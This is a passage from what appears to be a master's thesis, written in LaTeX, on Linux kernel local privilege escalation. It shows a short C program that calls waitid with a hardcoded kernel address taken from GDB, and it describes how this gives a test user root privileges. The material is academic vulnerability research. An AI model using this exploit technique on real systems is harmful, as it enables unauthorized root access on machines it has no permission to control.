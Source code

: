 \documentclass{masterthesis}
\begin{document}
This program allows us to print the address of the structure relating to the name of the process contained in the \textit{name\_task} variable both on the GDB terminal and within a file.

\subsection{LPE with C file}
\label{subsect:lpe_c}

It is possible to create a program in C that takes as input the address returned within GDB with the program~\ref{a_tasks} and modify the structure \textit{signinfo\_t} of the process gaining root privileges.
We consider like a process the user bash (test) which we are inside.

\begin{lstlisting}
int main(){
  int p;
  int err;
  if (fork()==0){
        p = getpid();
        unsigned long long addr = 0xffff880176e81600;
        err = waitid(P_PID,p,addr,WEXITED);
  }
  return 0;
}
\end{lstlisting}
This program creates a fork~\cite{fork} and inserts the \emph{PID} of the newly created process into the waitid and waits for termination.
Using these few command lines, it is possible to obtain root privileges for the logged-in user.
\begin{figure}[h!]
\caption{Example of local privilege escalation with GDB, DEBUG of Kernel and C file}
   \label{lpe_c}
\end{figure} 
As can be seen from the figure ~\ref{lpe_c}, after the execution of the program the test user obtains root privileges and performs the operations as such.
By logging out and logging back in with the same user, it is possible to observe how the test user no longer has the privileges.
\end{document}
